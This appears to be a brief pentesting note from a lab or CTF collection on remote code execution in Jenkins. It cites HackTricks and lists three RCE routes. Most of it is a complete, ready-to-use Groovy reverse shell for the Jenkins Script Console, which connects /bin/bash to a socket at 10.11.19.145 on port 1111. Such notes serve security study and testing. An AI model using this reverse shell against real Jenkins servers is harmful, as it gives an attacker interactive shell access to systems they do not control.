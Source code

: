 ![](../../attachment/5366e7b44dabbe4872097fe6034b98a6.png)

### RCE in jenkins

> https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security#rce-in-jenkins

There are mainly 3 ways to RCE in jenkins

- RCE Creating/Modifying a project
- RCE Execute Groovy script
- RCE Creating/Modifying Pipeline

**Using method : `Creating/Modifying a project`**

Manage Jenkins -> Script Console

```groovy
String host="10.11.19.145";
int port=1111;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![](../../attachment/ea2bc3e2430b09c00b2bb42b82c14244.png)
